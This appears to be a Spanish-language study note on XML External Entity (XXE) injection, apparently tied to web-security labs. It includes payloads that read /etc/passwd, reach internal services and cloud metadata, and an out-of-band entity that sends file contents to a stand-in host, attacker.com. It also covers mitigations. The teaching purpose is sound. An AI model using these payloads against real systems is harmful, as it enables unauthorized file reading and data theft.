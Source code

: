 # XML External Entity Injection

## 🔧 Qué es una vulnerabilidad XXE

Una **XXE injection** es una vulnerabilidad de seguridad web que ocurre cuando una aplicación procesa datos XML de forma insegura. Esto permite a un atacante:

* Leer archivos arbitrarios del servidor (como `/etc/passwd`).
* Realizar ataques SSRF.
* Exfiltrar datos de forma encubierta (blind XXE).

La causa principal es que muchos parsers XML soportan por defecto funcionalidades peligrosas como las **entidades externas**, sin requerir que la aplicación las use intencionalmente.

---

## 🤖 Qué son las entidades externas en XML

XML permite definir **entidades externas** en la sección `DOCTYPE`, que pueden cargar contenido desde archivos locales o URLs externas. Ejemplo:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

Esta entidad `xxe` representará el contenido del archivo `/etc/passwd`, si el parser lo permite. Luego, podrá utilizarse en cualquier parte del XML como `&xxe;`.

---

## 🤷‍♂️ Por qué surgen las vulnerabilidades XXE

* Muchas aplicaciones utilizan XML para transmitir datos entre cliente y servidor (por ejemplo, en APIs SOAP o sistemas legados).
* Usan bibliotecas como `libxml`, `XMLParser`, etc. que admiten entidades externas por defecto.
* Si la configuración no desactiva esas funcionalidades, un atacante podrá aprovecharlas para manipular la forma en que se procesan los datos.

---

## 📊 Tipos de ataques XXE

### 1. ✅ **Lectura de archivos locales**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```

Esto causará que el contenido de `/etc/passwd` se inserte en el lugar de `&xxe;` y sea devuelto en la respuesta si se incluye.

### 2. 📡 **SSRF)**

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.service.local/admin"> ]>
```

Esto puede ser usado para escanear servicios internos o atacar metadata APIs (ej. `http://169.254.169.254` en AWS).

### 3. 🔒 **Blind XXE con exfiltración OOB (Out-of-band)**

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker.com/exfil?data=file:///etc/passwd"> ]>
```

El servidor hace la solicitud, filtrando información al dominio del atacante.

### 4. 💡 **Blind XXE por error**

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>&xxe;&invalid;</productId>
</stockCheck>
```

Puede generar errores que revelen partes del contenido si el parser no puede manejar el resultado.

---

## 🔢 Detección sistemática de XXE

En escenarios reales, el XML puede tener varios nodos. El atacante debe probar su entidad `&xxe;` en cada nodo individual y observar en cuál se refleja su valor. Por ejemplo:

```xml
<order>
  <client>&xxe;</client>
  <productId>42</productId>
  <comments>Urgente</comments>
</order>
```

---

[Lab: Exploiting XXE using external entities to retrieve files](1_Exploiting_XXE_using_external_entities_to_retrieve_files.mdd)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

## 🚫 Mitigación y mejores prácticas

* ❌ No uses parsers XML inseguros o con configuraciones por defecto.
* ✅ Deshabilitá resolución de entidades externas (ej. `disableEntityExpansion=true`).
* ✉️ Usá formatos más seguros como JSON.
* ⛨️ Aplicá control de salida: nunca reflejes ciegamente contenido XML procesado.

---


